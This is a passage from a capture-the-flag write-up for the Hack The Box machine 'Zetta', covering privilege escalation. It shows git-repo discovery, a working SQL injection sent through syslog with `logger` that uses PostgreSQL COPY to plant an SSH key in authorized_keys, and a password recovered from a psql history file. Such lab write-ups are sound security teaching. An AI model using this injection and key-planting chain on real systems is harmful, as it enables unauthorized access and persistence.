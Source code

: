 ![](/assets/images/htb-writeup-zetta/root3.png)

![](/assets/images/htb-writeup-zetta/root4.png)

- There is a shared password scheme used, this could be useful later when I find more credentials
- The syslog events are pushed to a PostgreSQL database
- There's a reference to a git dotfile

Looking around the box, I find a few git repos:

```
roy@zetta:~$ find / -type d -name .git 2>/dev/null
/etc/pure-ftpd/.git
/etc/nginx/.git
/etc/rsyslog.d/.git
```

The repos for pure-ftpd and nginx are not very interesting, but the rsyslog one has a few hints in the last commit:

![](/assets/images/htb-writeup-zetta/root5.png)

- There's a template configured to insert the syslog message into the syslog_lines table
- The database credentials are shown below
- There's a comment about using `local7.info` for testing

I tried logging in with the credentials but they didn't work. I think this is because the file has been edited but not committed to the git repo yet. I can't read the `pgsql.conf` file so I don't have the latest credentials.

![](/assets/images/htb-writeup-zetta/root6.png)

The log files in `/var/log/postgresql` contain error logs related to PostgreSQL:

![](/assets/images/htb-writeup-zetta/root7.png)

Based on the hint in the git commit, I can use `local7.info` to send syslog messages into the database. I see that I can trigger an error by using a single quote:

![](/assets/images/htb-writeup-zetta/root8.png)

Even though the template escapes the single quotes to `\'`, it still presents an SQL injection vector. I can't just close the single quote and do a stacked query because the insert expects two values. So what I'll do is insert the right values using `$$` as replacement for single quotes, then issue a 2nd command using `COPY` to deliver my SSH public key in the `postgres` home directory:

`logger -p local7.info "', \$\$2019-08-31 23:37:22\$\$); copy (select \$\$SSH_KEY_CONTENTS\$\$) to \$\$/var/lib/postgresql/.ssh/authorized_keys\$\$ --; "`

![](/assets/images/htb-writeup-zetta/root9.png)

After looking around for a while I find the `postgres` password in the psql history file: `sup3rs3cur3p4ass`:

```
postgres@zetta:~$ cat /var/lib/postgresql/.psql_history
CREATE DATABASE syslog;
\c syslog
CREATE TABLE syslog_lines ( ID serial not null primary key, CustomerID bigint, ReceivedAt timestamp without time zone NULL, DeviceReportedTime timestamp without time zone NULL, Facility smallint NULL, Priority smallint NULL, FromHost varchar(60) NULL, Message text, NTSeverity int NULL, Importance int NULL, EventSource varchar(60), EventUser varchar(60) NULL, EventCategory int NULL, EventID int NULL, EventBinaryData text NULL, MaxAvailable int NULL, CurrUsage int NULL, MinUsage int NULL, MaxUsage int NULL, InfoUnitID int NULL , SysLogTag varchar(60), EventLogType varchar(60), GenericFileName VarChar(60), SystemID int NULL);
\d syslog_lines
ALTER USER postgres WITH PASSWORD 'sup3rs3cur3p4ass@postgres';
```
